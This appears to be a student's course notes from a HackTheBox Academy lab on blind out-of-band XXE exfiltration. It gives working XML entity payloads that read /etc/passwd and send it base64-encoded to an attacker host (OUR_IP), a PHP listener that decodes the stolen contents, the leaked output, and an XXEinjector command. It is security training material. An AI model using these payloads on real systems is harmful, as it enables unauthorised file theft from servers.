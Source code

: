# Blind Data Exfiltration

## Out-of-band Data Exfiltration

This method is used when no data is returned at all (completly blind). This is similar to blind SQLi Blind XSS

Previously we already used out-of-band attack since we hosted DTD file in attack machine and made it connect to us (hence out-of-band).

This time will be similar except, instead of having web app output our file entity to a specific XML entity, we will make web app send request to server with content of the file we are reading.

1. Use parameter entitiy for content of file we are reading using PHP filter to base64 encode it.
2. Create another external parameter and reference it to our IP along with the value

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

When the XML tries to reference the external `oob` parameter from our machine, it will request along with the base64 encoded content. To decode it we will use PHP.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
nano index.php
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

**Request body**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg" alt=""><figcaption><p>request sent</p></figcaption></figure>

our console will show as follow

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

> we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

### Automated OOB Exfiltration

[XXEinjector](https://github.com/enjoiz/XXEinjector). -> supports basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

We can **copy the HTTP request from Burp** and write it to a file for the tool to use. We should **not include the full XML data**, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

run the tool with the&#x20;

* `--host`/`--httpport` -> IP and port
* `--file` -> file we wrote above
* `--path` -> file we want to read
* `--oob=http` and `--phpfilter` -> OOB attack

```bash
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

```shell-session
cat Logs/10.129.201.94/etc/passwd.log 
```

## Assessment

Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

